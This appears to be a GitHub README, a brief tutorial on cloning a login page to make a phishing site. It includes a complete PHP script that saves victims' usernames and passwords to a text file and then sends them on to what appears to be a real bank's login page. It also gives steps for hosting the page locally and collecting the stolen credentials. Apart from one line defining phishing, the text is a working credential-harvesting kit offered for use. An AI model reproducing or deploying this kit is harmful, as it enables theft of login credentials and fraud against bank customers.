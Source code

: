 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 



How to host the phishing page on our computer using XAMPP/WAMP ?

1) Open the website in the browser for which you want to create a phishing page. Right click and save as index.html.

![capture1](https://cloud.githubusercontent.com/assets/18233358/24329625/faa91b94-1229-11e7-8c3b-fd3ae79db078.PNG)

2) Then open that html in a note pad. Now search string "action" and change address to validate.php

                   <form action="validate.php" method="post">

3) Now open notepad, type following code in it and save it as validate.php. This is create for store credentials.

                    <?php
                    $username = $_POST["username"];
                    $password = $_POST["passwd"];
 
                    //Get credentials to .txt file
                    $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
                    $txt = "USERNAME = $username , PASSWORD = $password\n";
                    fwrite($myfile, "\n". $txt);
                    fclose($myfile);
 
                    //Redirect the browser to original login page
                    header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
                    exit();

                    ?>

4) Then create credentials.txt file to store these credentials.

5) Host that created files to XAMMP/WAMP.

![capture14](https://cloud.githubusercontent.com/assets/18233358/24329565/f023d058-1227-11e7-9e8e-e1297b9771ea.PNG)


6) Then run that phishing website on browser and enter credentials.

7) That credentials store credentials.txt file. You can view that file and get that credentials easily.








